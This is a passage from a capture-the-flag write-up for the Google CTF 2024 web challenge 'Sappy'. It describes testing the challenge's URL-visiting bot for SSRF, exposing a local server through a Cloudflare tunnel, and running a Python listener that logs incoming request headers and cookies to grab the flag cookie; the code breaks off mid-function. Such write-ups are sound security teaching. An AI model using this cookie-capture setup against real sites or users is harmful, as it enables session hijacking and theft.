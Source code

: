 # SAPPY - GOOGLE CTF WEB (174pts)

I am a beginner programmer and I share what I learnt about JavaScript with the world!

Note: Flag is in the cookie

Attachment:
https://sappy-web.2024.ctfcompetition.com

![home](https://github.com/user-attachments/assets/39c9e6c7-e359-4cc3-88d8-5a0307e617b3)



## Potential SSRF

The challenge offers many cool javascript nuances but the main attack vector for this challenge is the search bar which essentially calls a bot to open our inputted URL.

I will test for SSRF by setting up a tunnel to map my private IP to a public address that the challenge can communicate with.

2️⃣ Cloudflare Tunnel (Free & Secure)

✅ Unlimited usage
✅ No need to expose your real IP
🛠 Setup:

```
wget https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64 -O cloudflared
chmod +x cloudflared
sudo mv cloudflared /usr/local/bin/
cloudflared tunnel --url http://localhost:8080

It will give you a Cloudflare-protected public URL.

📌 Website: https://developers.cloudflare.com/cloudflare-one/connections/connect-apps

```

Below is a python script that will listen/handle the http server and capture all requests (hopefully get the cookie)

```
from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestLoggerHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        print("\n📌 Received Request:")
        print(f"🔹 Path: {self.path}")
        
        
        # Capture cookies if present
        cookies = self.headers.get('Cookie')
        print(f"🍪 Cookies: {cookies}")

        # print headers
        print(self.headers)

        # Send a simple response
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(b"Captured your request headers!")

# Start the server on port 8080
def run_server(port=8080):
```